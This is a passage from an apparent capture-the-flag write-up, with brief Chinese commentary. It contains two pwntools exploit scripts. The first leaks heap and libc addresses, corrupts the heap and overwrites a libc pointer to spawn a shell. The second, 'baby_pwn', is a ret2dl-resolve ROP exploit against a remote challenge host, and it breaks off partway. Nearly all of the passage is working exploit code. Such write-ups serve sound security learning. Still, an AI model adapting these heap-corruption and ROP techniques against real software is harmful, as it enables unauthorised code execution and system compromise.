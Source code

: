 ```python
remove(0)
remove(2)
add(0x100, 'a' * 8)#0
add(0x100, 'a' * 8)#2

r.sendline(str(1))
r.recvuntil("aaaaaaaa")
heap = u64(r.recvuntil("1 :")[:-3].ljust(8,'\0')) - 0x220
r.recvuntil("aaaaaaaa")
libc = u64(r.recvuntil("3 :")[:-3].ljust(8,'\0')) - 0x3c4b78

print "heap: " + hex(heap)
print "libc: " + hex(libc)

remove(0)
remove(1)
remove(2)
remove(3)

add(0x60, p64(heap + 0x30) * 2 + p64(0) + p64(0x51))#0
add(0x20, 'a')#1
add(0x50, 'a')#2
add(0x20, 'a')#3
remove((heap + 0x18 - ptr - 8) / 0x10)
edit(0, p64(0) * 3 + p64(0x51) + p64(ptr + 0x18))
remove(1)
add(0x40, 'a')#1
add(0x40, 'a')#4
edit(4, p64(ptr))
edit(2, p64(0x100) + p64(ptr) + p64(0) * 4)
edit(0, p64(0x100) + p64(ptr) + p64(0x100) + p64(libc + 0x3c67a8) + p64(0x100) + p64(libc + 0x18cd57))
edit(1, p64(libc + 0x045390))

#gdb.attach(r)
r.sendline(str(4))
r.recvuntil("of daily:")
r.sendline(str(2))

r.interactive()
```

### baby_pwn

`ret2dl in x86`,没有可供`leak`的函数.保护很少,想起之前的`0ctf2018 babystack`,修改脚本直接打.  

```python
import sys
import roputils
from pwn import *

context.log_level = 'debug'
#r = process("./pwn")
r = remote("c346dfd9093dd09cc714320ffb41ab76.kr-lab.com", "56833")

rop = roputils.ROP('./pwn')
addr_bss = rop.section('.bss')

buf1 = 'A' * 0x2c
buf1 += p32(0x8048390) + p32(0x804852D) + p32(0) + p32(addr_bss) + p32(100)
r.send(buf1)

buf2 =  rop.string('/bin/sh')
buf2 += rop.fill(20, buf2)
```